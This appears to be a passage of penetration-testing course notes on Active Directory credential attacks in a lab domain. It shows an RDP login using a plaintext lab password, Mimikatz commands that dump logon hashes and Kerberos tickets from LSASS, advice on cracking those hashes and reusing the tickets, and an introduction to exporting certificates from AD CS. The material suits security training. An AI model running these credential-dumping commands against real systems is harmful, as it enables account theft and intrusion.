 ```bash
kali@kali:~$ xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.50.75         
```

```bash
PS C:\Windows\system32> cd C:\Tools

PS C:\Tools\> .\mimikatz.exe
...

mimikatz # privilege::debug # engage the SeDebugPrivlege8 privilege, which will allow us to interact with a process owned by another account

mimikatz # sekurlsa::logonpasswords # Dump hashes for all users logged onto the current workspace or server, including remote logins
```

You can now try to crack the SHA-1 & NTLM hashes to extract user passwords. 

A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets. As already discussed, we know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use. These tickets are also stored in LSASS, and we can use Mimikatz to interact with and retrieve our own tickets as well as the tickets of other local users.

Let's open a second PowerShell window and list the contents of the SMB share on WEB04 with UNC path \\web04.corp.com\backup. This will create and cache a service ticket.

```bash
PS C:\Users\jeff> dir \\web04.corp.com\backup
```

Once we've executed the directory listing on the SMB share, we can use Mimikatz to show the tickets that are stored in memory by entering sekurlsa::tickets.

```bash
mimikatz # sekurlsa::tickets
```

The output shows both a TGT and a TGS. Stealing a TGS would allow us to access only particular resources associated with those tickets. Alternatively, armed with a TGT, we could request a TGS for specific resources we want to target within the domain.

Before covering attacks on AD authentication mechanisms, let's briefly explore the use of Public Key Infrastructure (PKI)12 in AD. Microsoft provides the AD role Active Directory Certificate Services (AD CS)13 to implement a PKI, which exchanges digital certificates between authenticated users and trusted resources.

If a server is installed as a Certification Authority (CA),14 it can issue and revoke digital certificates (and much more). While a deep discussion on these concepts would require its own Module, let's focus on one aspect of cached and stored objects related to AD CS.

For example, we could issue certificates for web servers to use HTTPS or to authenticate users based on certificates from the CA via Smart Cards.15

These certificates may be marked as having a non-exportable private key16 for security reasons. If so, a private key associated with a certificate cannot be exported even with administrative privileges. However, there are various methods to export the certificate with the private key.
